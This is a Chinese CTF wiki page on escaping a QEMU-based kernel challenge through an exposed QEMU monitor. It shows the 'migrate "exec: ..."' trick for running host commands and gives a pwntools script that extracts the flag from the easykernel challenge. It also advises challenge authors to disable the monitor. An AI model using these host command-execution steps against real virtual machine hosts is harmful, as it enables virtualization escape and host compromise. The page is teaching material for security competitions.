 # 利用 QEMU Monitor 读取 flag

QEMU monitor 是 QEMU 内置的一个交互式控制台窗口，主要用于监控和管理虚拟机的状态。由于 Linux kernel pwn 题目通常使用 QEMU 创建虚拟机环境，因此若是未禁止选手对 QEMU monitor 的访问，则选手可以直接获得整个虚拟机的访问权限。同时，由于 QEMU monitor 支持在 host 侧执行命令，因此也可以直接读取题目环境中的 flag，这同时意味着我们还能可以利用 QEMU monitor 完成虚拟化逃逸。

> 对于出题人而言，应当时刻保证 `QEMU` 的参数包含一行 `-monitor none` 或是 `-monitor /dev/null` 以确保选手无法访问 QEMU monitor。

通常情况下，进入 QEMU monitor 的方法如下：

- 首先同时按下 `CTRL + A`
- 接下来按 `C`

使用 pwntools 脚本时，可以通过发送 `"\x01c"` 完成，例如：

```python
p = remote("localhost", 11451)
p.send(b"\x01c")
```

在 QEMU monitor 当中有一条比较好用的指令叫做 `migrate`，其支持我们执行特定的 URI：

```
(qemu) help migrate
migrate [-d] [-r] uri -- migrate to URI (using -d to not wait for completion)
                         -r to resume a paused postcopy migration
```

其中，URI 可以是 `'exec:<command>'` 或 `tcp:<ip:port>` ，前者支持我们直接在宿主机上执行命令，例如下面的命令在宿主机上执行了 `ls` 命令：

```
migrate "exec: sh -c ls"
```

有的时候可能会由于一些特殊原因遇到没有输出的情况，这个时候可以尝试将 stdout 重定向至 stderr，例如：

```
(qemu) migrate "exec: whoami"
qemu-system-x86_64: failed to save SaveStateEntry with id(name): 2(ram): -5
qemu-system-x86_64: Unable to write to command: Broken pipe
qemu-system-x86_64: Unable to write to command: Broken pipe
(qemu) migrate "exec: whoami 1>&2"
arttnba3
qemu-system-x86_64: failed to save SaveStateEntry with id(name): 2(ram): -5
qemu-system-x86_64: Unable to write to command: Broken pipe
qemu-system-x86_64: Unable to write to command: Broken pipe
(qemu) 
```

## 例题： 西湖论剑2021线上初赛 - easykernel

题目附件可在 [https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/linux/kernel-mode/XHLJ2021-easykernel](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/linux/kernel-mode/XHLJ2021-easykernel) 下载。

### 分析 && 利用

首先查看启动脚本，可以发现没有禁止 QEMU monitor：

```bash
#!/bin/sh

qemu-system-x86_64  \
-m 64M \
-cpu kvm64,+smep \
-kernel ./bzImage \
-initrd rootfs.img \
-nographic \
-s \
-append "console=ttyS0 kaslr quiet noapic"
```

因此我们可以直接通过 QEMU monitor 读取宿主机上的 flag，这里 flag 存放在 `rootfs.img.gz` 中，因此我们使用 `strings|grep` 进行过滤：

```python
from pwn import *

def recvuntil_filter(p, target):
    target_len = len(target)
    s = b''
    ignore_next = False
    while True:
        ch = p.recv(1)
        if ignore_next:
            ignore_next = False
            continue

        if ch == b'\x1b':
            ch = p.recv(2)
            if ch == b'[D':
                ignore_next = True
            elif ch == b'[K':
                s = b''
            else:
                print("Unhandled escape sequences : {}".format(ch))
            continue

        if ch[0] < 0x20 or ch[0] > 0x7E:
            continue

        s += ch
        if s[-target_len:] == target:
            return s

def main():
    p = process('./start.sh')
    p.recvuntil(b"/ $")
    p.send(b"\x01c")
    p.recvuntil(b"monitor - type 'help' for more information")
    p.sendline(b'migrate "exec: gunzip -c ./rootfs.img.gz | strings | grep -i flag{ 1>&2"')

    recvuntil_filter(p, b'grep -i flag{')
    flag = recvuntil_filter(p, b'flag{')[-5:]
    flag += recvuntil_filter(p, b'}')
    print(flag.decode())

if __name__ == '__main__':
    main()
```
